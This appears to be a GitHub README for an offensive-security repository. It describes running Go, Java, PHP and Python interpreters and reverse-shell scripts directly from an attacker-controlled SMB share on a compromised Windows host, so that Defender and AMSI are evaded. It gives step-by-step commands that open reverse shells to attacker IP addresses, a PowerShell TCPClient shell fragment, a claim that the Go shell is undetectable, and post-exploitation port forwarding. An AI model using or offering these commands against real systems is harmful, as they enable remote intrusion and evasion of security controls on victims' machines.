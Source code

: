# LOI Bins (Living off the Island) Binaries - A remote SMB Island in the middle of nowhere
## Abusing Remote Windows SMB Shares to Get Reverse Shells In ~~Any~~ Some Programming Languages

This repo is WIP (Work In Progress)

This is some research and techniques of ways to Execute Code in a number of different Programming Languages on a Victim Windows Host which doesnt have the environment installed.

This is nothing ground breaking, but I havent seen this technique documented anywhere. As long as you have the right environment installed on your Attacker Controlled Windows Device you can essentially run any code you wish in memory on the compromised machine. 

More will be added as and when I have the time to research it.

Programming Languages Tested With

1. [Go](#Go)
2. [Java](#example-with-java)
3. [PHP](#example-with-php)
4. Python - See here https://github.com/deeexcee-io/Eazee-As-Py

Post exploitation Techniques

1. [Python Port Forward - No SSH](#port-forward-example)
2. [Python Interpreter in Memory](#python-interpreter-example)

## Set the Scene

Lets say you have command execution on a host, your going to want to run a command to return a reverse shell. I would normally for something like `powershell -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.0.169',4444);........" `

Now with this aproach we have AMSI and Defender/AV. Running something like this without an AMSI bypass or obfuscation will get killed. Assuming our victim can reach out over SMB, typically we could either copy files over and execute them (which puts files on disk) or just execute an .exe straight from the share (which is nothing new)

This approach does the latter that but what we do is call the .exe of our programming language of choice and also pass it a script, both of which are stored on our attacker controlled SMB share. This loads the script, binaries and dependencies into memory and executes. 
Defender will still scan the scripts but by utilising **Go, Java, PHP etc** we have more flexibility to bypass static signatures. Testing with random un-obfuscated reverse shell scripts in these languages has proved successful.

You can also utilise these programming languages to carry out post exploitation in weird and wonderful ways. You could even just call python.exe from the remote share and drop straight into the [Interpreter](#python-interpreter-example) loaded from the SMB share straight into memory.

The process is extremely simple.

## <a name="Go"></a>Example with Go

1. Have a Windows Victim where you can run commands
2. Have a Windows Attack Box with your Programming Environment of choice - Python Java and Go are the only ones I have tested so far
3. Have a Kali Box or NCat on your Windows Attack Box to catch the Reverse Shell
4. Share the Folder where your Python/Java/Go.exe Application is
5. Have your Reverse Shell script also in the same folder
6. Run your command in CMD/PowerShell i.e with Go it is `\\192.168.59.130\Go\go.exe run \\192.168.59.130\Go\shell.go` where `\\192.168.59.130\Go\` is the Attacker Controlled Remote Share and `run` for `go run` and `\\192.168.59.130\Go\shell.go` is the Reverse Shell Code.

  ![image](https://user-images.githubusercontent.com/130473605/235157805-16805cb8-0019-44a7-acb2-4717a273c60a.png)


7. Sit back and execute Go on a Windows Victim Host that doesnt have it installed.

**NB - Give it time, can take a while to drop in**

![image](https://user-images.githubusercontent.com/130473605/235159127-c5551ddd-07b3-408e-baa7-ec45869b56ab.png)

**NBNB - shell.go is FUD @ 28/04/2023**

![image](https://user-images.githubusercontent.com/130473605/235163241-a43353c0-f538-4b6b-ad3e-4943631242ec.png)


## <a name="Java"></a>Example with Java

1. Download and Install JRE 
2. Share /bin folder - C:\Program Files\Java\jre-1.8\bin - I renamed my bin folder JRE when sharing in Advanced Sharing
3. Download Reverse-Shell.jar and place in /bin folder - Stolen from https://github.com/ivan-sincek/java-reverse-tcp/blob/main/jar/Reverse_Shell.jar
4. Execute java and jar file whilst bypassing Defender `\\192.168.59.130\JRE\bin\java -jar \\192.168.59.130\JRE\bin\Reverse_Shell.jar 10.201.20.61 8445`

![image](https://user-images.githubusercontent.com/130473605/235175752-b3b26e3d-5f12-4052-a124-a498cc28a8c8.png)

5. Enjoy a Java Reverse Shell from a Windows Host that doesnt have Java Installed

![image](https://user-images.githubusercontent.com/130473605/235176177-20c77e58-0a72-49e4-8036-317389f6591d.png)

## <a name="PHP"></a>Example with PHP

Same as above. Install PHP on Windows and call the php.exe application and reverse shell script.

![image](https://user-images.githubusercontent.com/130473605/235460758-c8660755-0280-4eac-a53a-4a73e0d0dfb3.png)

Catch Shell in Kali

![image](https://user-images.githubusercontent.com/130473605/235460817-62909b39-33fc-4e5c-9de9-17e057bec08a.png)


## <a name="PF"></a>Port Forward Example

## Post Exploitation

In this example you have a HTTP Server listening on localhost and want to exploit it (My Nessus Server in this case port 8834)


![image](https://user-images.githubusercontent.com/130473605/235459846-d72eb2f6-b35a-49f7-9ea4-faf5e8ef3a03.png)


Point to remote share and port forward script telling the host to listen on port 22222 and forward any traffic to 127.0.0.1:8834 (nessus)

![image](https://user-images.githubusercontent.com/130473605/235459541-ddb4806d-4ab0-41e4-8886-63ec8c2f2791.png)

This opens up an external port which you can then browse to. You can now access the Internal HTTP Server on your attacking machine. 

![image](https://user-images.githubusercontent.com/130473605/235460235-828b6079-1920-4907-a91c-6d8461a0b86d.png)

## <a name="PF"></a>Python Interpreter Example

Its as simple as pointing to a remote share which then loads python into memory. 

![image](https://user-images.githubusercontent.com/130473605/235461798-2cc3bada-d39e-48f7-82d1-d6a207d600ae.png)

![image](https://user-images.githubusercontent.com/130473605/235464000-614a31d4-8847-413f-8a21-15826483bbbf.png)

